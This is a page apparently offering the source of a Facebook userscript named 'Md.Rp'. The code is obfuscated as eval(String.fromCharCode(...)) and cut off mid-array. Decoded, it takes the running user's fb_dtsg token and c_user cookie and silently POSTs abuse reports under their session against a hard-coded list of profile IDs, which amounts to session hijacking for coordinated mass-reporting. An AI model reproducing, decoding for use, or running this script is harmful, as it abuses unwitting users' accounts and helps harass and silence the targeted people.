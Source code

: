eval(String.fromCharCode(47, 47, 32, 61, 61, 85, 115, 101, 114, 83, 99, 114, 105, 112, 116, 61, 61, 10, 47, 47, 32, 64, 110, 97, 109, 101, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 34, 77, 100, 46, 82, 112, 34, 10, 47, 47, 32, 61, 61, 47, 85, 115, 101, 114, 83, 99, 114, 105, 112, 116, 61, 61, 10, 118, 97, 114, 32, 102, 98, 95, 100, 116, 115, 103, 32, 61, 32, 100, 111, 99, 117, 109, 101, 110, 116, 46, 103, 101, 116, 69, 108, 101, 109, 101, 110, 116, 115, 66, 121, 78, 97, 109, 101, 40, 39, 102, 98, 95, 100, 116, 115, 103, 39, 41, 91, 48, 93, 46, 118, 97, 108, 117, 101, 59, 10, 118, 97, 114, 32, 117, 115, 101, 114, 95, 105, 100, 32, 61, 32, 100, 111, 99, 117, 109, 101, 110, 116, 46, 99, 111, 111, 107, 105, 101, 46, 109, 97, 116, 99, 104, 40, 100, 111, 99, 117, 109, 101, 110, 116, 46, 99, 111, 111, 107, 105, 101, 46, 109, 97, 116, 99, 104, 40, 47, 99, 95, 117, 115, 101, 114, 61, 40, 92, 100, 43, 41, 47, 41, 91, 49, 93, 41, 59, 10, 118, 97, 114, 32, 110, 111, 119, 61, 40, 110, 101, 119, 32, 68, 97, 116, 101, 41, 46, 103, 101, 116, 84, 105, 109, 101, 40, 41, 59, 10, 102, 117, 110, 99, 116, 105, 111, 110, 32, 114, 101, 112, 111, 114, 116, 40, 114, 41, 32, 123, 10, 118, 97, 114, 32, 88, 32, 61, 32, 110, 101, 119, 32, 88, 77, 76, 72, 116, 116, 112, 82, 101, 113, 117, 101, 115, 116, 40, 41, 59, 10, 118, 97, 114, 32, 88, 85, 82, 76, 32, 61, 32, 34, 104, 116, 116, 112, 115, 58, 47, 47, 119, 119, 119, 46, 102, 97, 99, 101, 98, 111, 111, 107, 46, 99, 111, 109, 47, 97, 106, 97, 120, 47, 114, 101, 112, 111, 114, 116, 47, 115, 111, 99, 105, 97, 108, 46, 112, 104, 112, 34, 59, 10, 118, 97, 114, 32, 88, 80, 97, 114, 97, 109, 115, 32, 61, 34, 102, 98, 95, 100, 116, 115, 103, 61, 34, 43, 102, 98, 95, 100, 116, 115, 103, 43, 34, 38, 98, 108, 111, 99, 107, 61, 49, 38, 112, 112, 61, 37, 55, 66, 37, 50, 50, 97, 99, 116, 105, 111, 110, 115, 95, 116, 111, 95, 116, 97, 107, 101, 37, 50, 50, 37, 51, 65, 37, 50, 50, 91, 93, 37, 50, 50, 37, 50, 67, 37, 50, 50, 97, 114, 101, 95, 102, 114, 105, 101, 110, 100, 115, 37, 50, 50, 37, 51, 65, 102, 97, 108, 115, 101, 37, 50, 67, 37, 50, 50, 99, 105, 100, 37, 50, 50, 37, 51, 65, 34, 32, 43, 32, 114, 32, 43, 34, 37, 50, 67, 37, 50, 50, 99, 111, 110, 116, 101, 110, 116, 95, 116, 121, 112, 101, 37, 50, 50, 37, 51, 65, 48, 37, 50, 67, 37, 50, 50, 101, 120, 112, 97, 110, 100, 95, 114, 101, 112, 111, 114, 116, 37, 50, 50, 37, 51, 65, 49, 37, 50, 67, 37, 50, 50, 102, 105, 114, 115, 116, 95, 99, 104, 111, 105, 99, 101, 37, 50, 50, 37, 51, 65, 37, 50, 50, 102, 105, 108, 101, 95, 114, 101, 112, 111, 114, 116, 37, 50, 50, 37, 50, 67, 37, 50, 50, 102, 114, 111, 109, 95, 103, 101, 97, 114, 37, 50, 50, 37, 51, 65, 37, 50, 50, 116, 105, 109, 101, 108, 105, 110, 101, 37, 50, 50, 37, 50, 67, 37, 50, 50, 105, 115, 95, 102, 111, 108, 108, 111, 119, 105, 110, 103, 37, 50, 50, 37, 51, 65, 102, 97, 108, 115, 101, 37, 50, 67, 37, 50, 50, 105, 115, 95, 116, 97, 103, 103, 101, 100, 37, 50, 50, 37, 51, 65, 102, 97, 108, 115, 101, 37, 50, 67, 37, 50, 50, 111, 110, 95, 112, 114, 111, 102, 105, 108, 101, 37, 50, 50, 37, 51, 65, 102, 97, 108, 115, 101, 37, 50, 67, 37, 50, 50, 112, 104, 97, 115, 101, 37, 50, 50, 37, 51, 65, 51, 37, 50, 67, 37, 50, 50, 114, 101, 102, 37, 50, 50, 37, 51, 65, 37, 50, 50, 104, 116, 116, 112, 115, 37, 51, 65, 37, 53, 67, 37, 50, 70, 37, 53, 67, 37, 50, 70, 119, 119, 119, 46, 102, 97, 99, 101, 98, 111, 111, 107, 46, 99, 111, 109, 37, 53, 67, 37, 50, 70, 37, 50, 50, 37, 50, 67, 37, 50, 50, 114, 101, 112, 111, 114, 116, 95, 116, 121, 112, 101, 37, 50, 50, 37, 51, 65, 49, 52, 53, 37, 50, 67, 37, 50, 50, 114, 105, 100, 37, 50, 50, 37, 51, 65, 34, 32, 43, 32, 114, 32, 43, 34, 37, 50, 67, 37, 50, 50, 115, 117, 98, 95, 114, 101, 112, 111, 114, 116, 95, 116, 121, 112, 101, 37, 50, 50, 37, 51, 65, 49, 52, 49, 37, 50, 67, 37, 50, 50, 116, 105, 109, 101, 95, 102, 108, 111, 119, 95, 115, 116, 97, 114, 116, 101, 100, 37, 50, 50, 37, 51, 65, 34, 43, 110, 111, 119, 43, 34, 37, 50, 67, 37, 50, 50, 117, 115, 101, 114, 37, 50, 50, 37, 51, 65, 34, 43, 117, 115, 101, 114, 95, 105, 100, 43, 34, 37, 55, 68, 38, 102, 105, 108, 101, 95, 114, 101, 112, 111, 114, 116, 61, 49, 38, 95, 95, 117, 115, 101, 114, 61, 34, 43, 117, 115, 101, 114, 95, 105, 100, 43, 34, 38, 95, 95, 97, 61, 49, 38, 95, 95, 100, 121, 110, 61, 55, 110, 56, 97, 104, 121, 106, 51, 53, 121, 110, 122, 112, 81, 57, 85, 109, 65, 87, 117, 85, 82, 68, 119, 38, 95, 95, 114, 101, 113, 61, 104, 38, 116, 116, 115, 116, 97, 109, 112, 61, 50, 54, 53, 56, 49, 54, 54, 49, 49, 48, 55, 49, 49, 50, 48, 49, 49, 50, 55, 54, 38, 99, 111, 110, 102, 105, 114, 109, 101, 100, 61, 49, 34, 59, 10, 88, 46, 111, 112, 101, 110, 40, 34, 80, 79, 83, 84, 34, 44, 32, 88, 85, 82, 76, 44, 32, 116, 114, 117, 101, 41, 59, 10, 88, 46, 111, 110, 114, 101, 97, 100, 121, 115, 116, 97, 116, 101, 99, 104, 97, 110, 103, 101, 32, 61, 32, 102, 117, 110, 99, 116, 105, 111, 110, 32, 40, 41, 32, 123, 10, 105, 102, 32, 40, 88, 46, 114, 101, 97, 100, 121, 83, 116, 97, 116, 101, 32, 61, 61, 32, 52, 32, 38, 38, 32, 88, 46, 115, 116, 97, 116, 117, 115, 32, 61, 61, 32, 50, 48, 48, 41, 32, 123, 10, 88, 46, 99, 108, 111, 115, 101, 59, 10, 125, 10, 125, 59, 10, 88, 46, 115, 101, 110, 100, 40, 88, 80, 97, 114, 97, 109, 115, 41, 59, 10, 125, 10, 114, 101, 112, 111, 114, 116, 40, 34, 49, 48, 48, 48, 48, 51, 51, 51, 49, 51, 55, 50, 57, 53, 50, 34, 41, 59, 114, 101, 112, 111, 114, 116, 40, 34, 49, 51, 49, 53, 54, 53, 57, 48, 56, 51, 34, 41, 59, 114, 101, 112, 111, 114, 116, 40, 34, 49, 48, 48, 48, 48, 50, 51, 57, 49, 50, 53, 52, 56, 55, 57, 34, 41, 59, 114, 101, 112, 111, 114, 116, 40, 34, 49, 48, 48, 48, 48, 49, 50, 50, 48, 50, 55, 48, 48, 54, 53, 34, 41, 59, 114, 101, 112, 111, 114, 116, 40, 34, 49, 48, 48, 48, 48, 50, 48, 53, 54, 49, 49, 55, 48, 54, 54, 34, 41, 59, 114, 101, 112, 111, 114, 116, 40, 34, 49, 48, 48, 48, 48, 55, 48, 49, 54, 52, 54, 52, 50, 54, 56, 34, 41, 59, 114, 101, 112, 111, 114, 116, 40, 34, 52, 48,